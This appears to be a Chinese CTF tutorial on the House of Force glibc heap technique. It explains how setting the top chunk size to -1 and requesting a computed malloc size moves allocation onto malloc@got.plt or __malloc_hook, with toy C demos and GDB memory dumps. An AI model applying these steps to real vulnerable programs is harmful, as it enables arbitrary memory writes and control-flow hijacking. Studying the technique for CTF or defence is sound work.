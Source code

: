 # House Of Force

## 介绍
House Of Force属于House Of XXX系列，House Of XXX指的是2004年一篇名为《The Malloc Maleficarum-Glibc Malloc Exploitation Techniques》的文章中提出的一系列针对glibc漏洞的利用方法。<br>
但是由于年代久远《The Malloc Maleficarum》中提出的大多数利用在今天都不能奏效，我们现在所指的House Of XXX利用相比2004年文章中写的已有较大的不同。但是《The Malloc Maleficarum》依然是一篇推荐阅读的文章，你可以在这里读到它的原文：
https://dl.packetstormsecurity.net/papers/attack/MallocMaleficarum.txt

## 原理
House Of Force是一种堆溢出的利用方法，当然能够通过House Of Force进行利用的可能不只是堆溢出漏洞。如果一个堆(heap based)漏洞想要通过House Of Force方法进行利用，需要以下条件：

* 1.用户能够以溢出等方式控制到top chunk的size域
* 2.用户能够自由的控制堆分配尺寸的大小

House Of Force产生的原因在于glibc对top chunk的处理，根据前面堆数据结构部分的知识我们得知，进行堆分配时会从top chunk中分割出相应的大小作为堆块的空间，因此top chunk的位置会发生上下浮动以适应堆内存分配和释放。

HOF的利用思想可以概括为一句话：
当使用top chunk分配堆块的size值是由用户控制的任意值时会发生什么？<br>
答案是，可以使得top chunk移动到我们想要达到的任何位置，这就相当于一次任意地址写。
<br>
然而在glibc中，会对用户请求的大小和top chunk现有的size进行验证
```
// 获取当前的top chunk，并计算其对应的大小
victim = av->top;
size   = chunksize(victim);
// 如果在分割之后，其大小仍然满足chunk的最小大小，那么就可以直接进行分割。
if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE)) 
{
    remainder_size = size - nb;
    remainder      = chunk_at_offset(victim, nb);
    av->top        = remainder;
    set_head(victim, nb | PREV_INUSE |
            (av != &main_arena ? NON_MAIN_ARENA : 0));
    set_head(remainder, remainder_size | PREV_INUSE);

    check_malloced_chunk(av, victim, nb);
    void *p = chunk2mem(victim);
    alloc_perturb(p, bytes);
    return p;
}
```
然而，如果可以篡改size的大小为一个很大值，就可以轻松的通过这个验证，这也就是我们前面说的需要一个能够控制top chunk size域的漏洞。

```
(unsigned long) (size) >= (unsigned long) (nb + MINSIZE)
```
一般的做法是把top chunk的size改为-1，因为在进行比较时会把size转换成无符号数(如上)，因此-1会解释成为一个大数，就可以使得所有64位值都能通过验证。

```
remainder      = chunk_at_offset(victim, nb);
av->top        = remainder;

/* Treat space at ptr + offset as a chunk */
##define chunk_at_offset(p, s) ((mchunkptr)(((char *) (p)) + (s)))
```
之后这里会把top指针更新，接下来的堆块就会分配到这个位置，用户只要控制了这个指针就相当于实现任意地址写任意址(write-anything-anywhere)



## 简单示例
在学习完HOF的原理之后，我们这里通过一个示例来说明HOF的利用
这个例子的目标是通过HOF来篡改malloc@got.plt实现劫持程序流程

```
int main()
{
    long *ptr,*ptr2;
    ptr=malloc(0x10);
    ptr=(long *)(((long)ptr)+24);
    *ptr=-1;        // <=== 这里把top chunk的size域改为0xffffffffffffffff
    malloc(-4120);  // <=== 减小top chunk指针
    malloc(0x10);   // <=== 分配块实现任意地址写
}
```

首先，我们分配一个0x10字节大小的块

```
0x602000:	0x0000000000000000	0x0000000000000021 <=== ptr
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000020fe1 <=== top chunk
0x602030:	0x0000000000000000	0x0000000000000000
```
之后把top chunk的size改为0xffffffffffffffff，在题目中这一步可以通过堆溢出等漏洞来实现。
因为-1在补码中是以0xffffffffffffffff表示的，所以我们直接赋值-1就可以。

```
0x602000:	0x0000000000000000	0x0000000000000021 <=== ptr
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0xffffffffffffffff <=== top chunk size域被更改
0x602030:	0x0000000000000000	0x0000000000000000
```
注意此时的top chunk位置，当我们进行下一次分配的时候就会更改top chunk的位置到我们想要的地方

```
0x7ffff7dd1b20 <main_arena>:	0x0000000100000000	0x0000000000000000
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b50 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b70 <main_arena+80>:	0x0000000000000000	0x0000000000602020 <=== top chunk此时一切正常
0x7ffff7dd1b80 <main_arena+96>:	0x0000000000000000	0x00007ffff7dd1b78
```
接下来我们执行`malloc(-4120);`，-4120是怎么得出的呢？
首先明确要写入的目的地址，这里我编译的情况0x601020是malloc@got.plt的地址

```
0x601020:	0x00007ffff7a91130 <=== malloc@got.plt
```
之后明确当前top chunk的地址，根据前面描述，top chunk位于0x602020
所以我们使用0x601020-0x602020-0x10=-4120,之所以要减去0x10是为了刨除chunk header的偏移
当调用`malloc(-4120)`之后，我们可以观察到top chunk被抬高到我们想要的位置

```
0x7ffff7dd1b20 <main_arena>:\	0x0000000100000000	0x0000000000000000
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b50 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b70 <main_arena+80>:	0x0000000000000000	0x0000000000601010 <=== 可以观察到top chunk被抬高
0x7ffff7dd1b80 <main_arena+96>:	0x0000000000000000	0x00007ffff7dd1b78
```
之后，我们分配的块就会出现在0x601010+0x10的位置，也就是0x601020可以更改got表中的内容了。

## 简单示例2
在上一个示例中我们演示了通过HOF使得top chunk的指针减小来修改位于其上面(低地址)的got表中的内容，
但是HOF其实也可以使得top chunk指针增大来修改位于高地址空间的内容，我们通过这个示例来演示这一点

```
int main()
{
    long *ptr,*ptr2;
    ptr=malloc(0x10);
    ptr=(long *)(((long)ptr)+24);
    *ptr=-1;                 <=== 修改top chunk size
    malloc(140737345551056); <=== 增大top chunk指针
    malloc(0x10);
}
```
我们可以看到程序代码与简单示例1基本相同，除了第二次malloc的size有所不同。
这次我们的目标是malloc_hook，我们知道malloc_hook是位于libc.so里的全局变量值，首先查看内存布局

```
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/vb/桌面/tst/t1
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/vb/桌面/tst/t1
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/vb/桌面/tst/t1
0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]
0x00007ffff7a0d000 0x00007ffff7bcd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000 0x00007ffff7dcd000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd3000 0x00007ffff7dd7000 0x0000000000000000 rw- 
0x00007ffff7dd7000 0x00007ffff7dfd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7fdb000 0x00007ffff7fde000 0x0000000000000000 rw- 
0x00007ffff7ff6000 0x00007ffff7ff8000 0x0000000000000000 rw- 
0x00007ffff7ff8000 0x00007ffff7ffa000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 0x0000000000000000 r-x [vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw- 
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
```
可以看到heap的基址在0x602000，而libc的基址在0x7ffff7a0d000，因此我们需要通过HOF扩大top chunk指针的值来实现对malloc_hook的写。
<br>
首先由调试得知__malloc_hook的地址位于0x7ffff7dd1b10，采取计算0x7ffff7dd1b00-0x602020-0x10=140737345551056
经过这次malloc之后，我们可以观察到top chunk的地址被抬高到了0x00007ffff7dd1b00

```
0x7ffff7dd1b20 <main_arena>:	0x0000000100000000	0x0000000000000000
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b50 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b70 <main_arena+80>:	0x0000000000000000	0x00007ffff7dd1b00 <=== top chunk
0x7ffff7dd1b80 <main_arena+96>:	0x0000000000000000	0x00007ffff7dd1b78
```
之后，我们只要再次分配就可以控制0x7ffff7dd1b10处的__malloc_hook值了

```
rax = 0x00007ffff7dd1b10
    
0x400562 <main+60>        mov    edi, 0x10
0x400567 <main+65>        call   0x400410 <malloc@plt>
```

## 小总结
在这一节中讲解了House Of Force的原理并且给出了两个利用的简单示例，通过观察这两个简单示例我们会发现其实HOF的利用要求还是相当苛刻的。

* 首先，需要存在漏洞使得用户能够控制top chunk的size域。
* 其次，需要用户能自由控制malloc的分配大小
* 第三，分配的次数不能受限制

其实这三点中第二点往往是最难办的，CTF题目中往往会给用户分配堆块的大小限制最小和最大值使得不能通过HOF的方法进行利用。



